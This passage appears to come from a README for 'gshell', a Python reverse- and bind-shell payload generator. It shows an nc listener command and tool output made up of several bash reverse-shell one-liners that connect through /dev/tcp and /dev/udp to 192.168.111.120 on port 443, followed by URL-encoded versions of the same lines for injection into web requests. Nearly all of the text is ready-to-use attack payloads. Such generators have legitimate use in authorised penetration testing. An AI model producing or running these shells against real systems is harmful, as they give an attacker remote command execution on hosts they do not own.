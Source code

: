 Setup a listener with [nc](https://linux.die.net/man/1/nc) UDP:

```sh
nc -vulp <PORT>
```

> Note: Replace `<PORT>` with the port number of the target.

## Example of Bind Shells & Reverse Shells

Example, generate bash reverse shells:

```sh
PS C:\gshell> python .\gshell.py -i 192.168.111.120 -p 443  -r -s bash 
[+] The IPv4 address: 192.168.111.120 is valid.
[+] The port number: 443 is valid.
[+] Shell type is valid
[+] Preparing reverse shells
[+] Generating bash shells
bash -i >& /dev/tcp/192.168.111.120/443 0>&1

----------------NEXT CODE BLOCK----------------

0<&196;exec 196<>/dev/tcp/192.168.111.120/443; sh <&196 >&196 2>&196

----------------NEXT CODE BLOCK----------------

/bin/bash -l > /dev/tcp/192.168.111.120/443 0<&1 2>&1

----------------NEXT CODE BLOCK----------------

bash -i >& /dev/tcp/192.168.111.120/443 0>&1

----------------NEXT CODE BLOCK----------------

bash -i >& /dev/udp/192.168.111.120/443 0>&1
```

## Example of Encodings

Here is an example of an encoding:

```sh
PS C:\gshell> python .\gshell.py -i 192.168.111.120 -p 443 -r -s bash --url 
[+] The IPv4 address: 192.168.111.120 is valid.
[+] The port number: 443 is valid.
[+] Shell type is valid
[+] Preparing reverse shells
[+] Generating bash shells
[+] Adding URL Encoding
bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.111.120%2F443+0%3E%261%0A

----------------NEXT CODE BLOCK----------------

0%3C%26196%3Bexec+196%3C%3E%2Fdev%2Ftcp%2F192.168.111.120%2F443%3B+sh+%3C%26196+%3E%26196+2%3E%26196%0A

----------------NEXT CODE BLOCK----------------

%2Fbin%2Fbash+-l+%3E+%2Fdev%2Ftcp%2F192.168.111.120%2F443+0%3C%261+2%3E%261%0A

----------------NEXT CODE BLOCK----------------

bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.111.120%2F443+0%3E%261%0A

----------------NEXT CODE BLOCK----------------
```